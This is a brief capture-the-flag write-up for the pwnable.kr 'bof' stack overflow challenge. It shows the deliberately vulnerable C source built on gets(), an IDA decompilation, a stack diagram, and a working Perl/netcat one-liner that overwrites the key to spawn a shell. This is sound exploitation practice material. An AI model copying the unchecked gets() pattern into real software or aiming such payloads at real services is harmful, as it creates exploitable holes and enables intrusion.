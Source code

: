 #BOF

<pre><code>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

</code></pre>


<pre><code>
int __cdecl func(int a1)
{
  char s; // [sp+1Ch] [bp-2Ch]@1
  int v3; // [sp+3Ch] [bp-Ch]@1

  v3 = *MK_FP(__GS__, 20);
  puts("overflow me : ");
  gets(&s);
  if ( a1 == -889275714 )
    system("/bin/sh");
  else
    puts("Nah..");
  return *MK_FP(__GS__, 20) ^ v3;
}
</code></pre>
i can found it by ida

so i supose stack structure

<pre><code>
+---------------+ bp - 2ch
|               |
|               |
| overflow[32] |
|               |
|               |
+---------------+ bp - ch
|     v3        | 
+---------------+ bp
|    sfp(4byte) |
+---------------+
|     rtn(4byte)|
+---------------+
|     key       |
+---------------+
</code></pre>
2ch = 44d

i overflow

44 + sfp(4byte) + rtn (4byte) + key value overwrite

so pwn code is

(perl -e 'print "a"x52 , "\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000





